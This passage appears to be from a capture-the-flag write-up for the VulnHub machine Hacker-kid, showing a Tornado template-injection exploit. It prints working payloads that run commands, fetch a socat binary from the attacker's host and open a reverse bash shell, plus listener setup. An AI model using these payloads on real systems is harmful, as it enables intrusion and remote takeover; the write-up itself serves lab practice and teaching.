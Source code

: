 **Hmm... Maybe exploiting the SSTI vulnerability? We found the template in `blackhat.local/templates/`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817183737.png)

Nice! It's vulnerable to SSTI!

Let's try to get RCE (Remote Code Execution) via SSTI!

**According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python), we can get RCE via:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817184001.png)

**However, the above payload only returns the exit code `0` (Successful execution) and we can't see the output, so I modified the payload:**
```tornado
{{__import__('os').popen('id').read()}}
```

> Note: This payload will **dynamically** import the `os` module, and using `popen()` method to execute commands. Finally, use `read()` method to retrieve the output of the executed command.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817184207.png)

**Let's get a reverse shell!**

- Setup a socat listener (For fully interactive shell)

```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Hacker-kid:1.0.1)-[2023.08.17|18:42:55(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2023/08/17 18:43:15 socat[289955] N opening character device "/dev/pts/3" for reading and writing
2023/08/17 18:43:15 socat[289955] N listening on AF=2 0.0.0.0:443
```

- Host the `socat` binary via Python's `http.server` module:

```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Hacker-kid:1.0.1)-[2023.08.17|18:43:33(HKT)]
└> file /opt/static-binaries/binaries/linux/x86_64/socat
/opt/static-binaries/binaries/linux/x86_64/socat: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
┌[siunam♥Mercury]-(~/ctf/VulnHub/Hacker-kid:1.0.1)-[2023.08.17|18:43:35(HKT)]
└> python3 -m http.server -d /opt/static-binaries/binaries/linux/x86_64/ 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Send the payload: (Generated from [revshells.com](https://www.revshells.com/))

```tornado
{{__import__('os').popen('wget http://10.69.96.100/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat TCP:10.69.96.100:443 EXEC:"/bin/bash",pty,stderr,setsid,sigint,sane').read()}}
```

**URL encoded:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817184836.png)

```tornado
{{__import__('os').popen('wget%20http%3A%2F%2F10%2E69%2E96%2E100%2Fsocat%20%2DO%20%2Ftmp%2Fsocat%3B%20chmod%20%2Bx%20%2Ftmp%2Fsocat%3B%20%2Ftmp%2Fsocat%20TCP%3A10%2E69%2E96%2E100%3A443%20EXEC%3A%22%2Fbin%2Fbash%22%2Cpty%2Cstderr%2Csetsid%2Csigint%2Csane').read()}}
```

- Profit:

```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Hacker-kid:1.0.1)-[2023.08.17|18:42:55(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2023/08/17 18:43:15 socat[289955] N opening character device "/dev/pts/3" for reading and writing
2023/08/17 18:43:15 socat[289955] N listening on AF=2 0.0.0.0:443
```